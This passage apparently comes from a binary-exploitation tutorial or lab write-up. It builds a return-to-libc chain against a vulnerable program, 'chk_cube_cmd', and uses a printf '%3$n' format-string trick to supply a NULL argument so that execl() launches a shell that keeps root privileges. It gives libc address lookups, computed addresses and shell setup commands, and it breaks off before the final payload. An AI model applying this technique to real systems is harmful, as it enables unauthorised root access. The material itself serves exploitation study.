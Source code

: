 ...and compile it:

```
gcc -o setuid setuid.c -Wall
```

...then ensure $PATH includes the current directory:

```
$ export PATH="$PATH:."
```

We would like to place the following data on the stack, starting with the first return address being overwritten via the vulnerable buffer:

```
... | execl() | <dont_care> | "setuid" | "setuid" | NULL | ...
```

...but we can't push four `\x00` bytes onto the stack before `chk_cube_cmd` will stop reading after the very first '\0' ("null character"). We need an additional trick that programmatically generates a 32-bit `NULL` and writes it onto the stack at the end of our "exploit" string.

That trick relies on `printf()`, which, when provided with the format string `"%3$n"`, will write the number of characters outputted thus far (0) to the location pointed to by its third argument. The exploit string is:

```
... | printf() | execl() | "%3$n" | "setuid" | "setuid" | here_ptr | ...
```

We need `here_ptr` to point to its *own* address, so that `printf()` will, as directed by its format string (`"%3$n"`), write `0x00000000` to the address given by its third argument (`here_ptr`). Thus, upon "returning", `printf()` will have prepared the third argument to `execl()` to now be `NULL`. At this point, `execl()` can launch our `setuid` program which will start a shell *without* first dropping `root` privileges!

Let's find addresses for `printf()` and `execl()`, respectively:

```
$ readelf -all /lib32/libc.so.6 | grep ' printf'
   685: 0004fd30    45 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.0


$ readelf -all /lib32/libc.so.6 | grep ' execl'
   152: 000c8580   319 FUNC    GLOBAL DEFAULT   15 execl@@GLIBC_2.0
```

The absolute address for `printf()` will be `0xf7e1bd30`, and the absolute address for `execl()` will be `0xf7e94580`. As calculated earlier, the "setuid" string will be found at `0xf7dda0d8`.

Next, we must make available a pointer to the string `"%3$n"`. We are unlikely to have a matching string in either `glibc` or in `chk_cube_cmd` itself. We can, however, add it to the environment:

```
$ export FMT='%3$n'
$ echo $FMT
%3$n
```
